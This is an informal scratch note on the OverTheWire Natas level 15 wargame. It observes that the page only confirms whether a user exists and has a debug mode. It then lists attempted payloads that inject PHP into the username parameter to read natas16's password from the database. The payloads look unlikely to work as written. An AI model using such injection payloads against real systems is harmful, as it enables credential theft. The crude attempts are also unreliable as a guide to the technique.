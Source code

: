 can check if a user exists or not (only outputs yes or no)

can use "debug mode" (thank god because using forms is bullshit brooo)

http://natas15.natas.labs.overthewire.org/?debug=true&username=mysql


<?php mysqli_fetch_all(mysqli_query($link, "SELECT password FROM users WHERE username='natas16'"))[0] ?>
http://natas15.natas.labs.overthewire.org/?debug=true&username=<?php echo mysqli_fetch_row(mysqli_query($link, "SELECT password FROM users WHERE username=\"natas16\""))[0] ?>
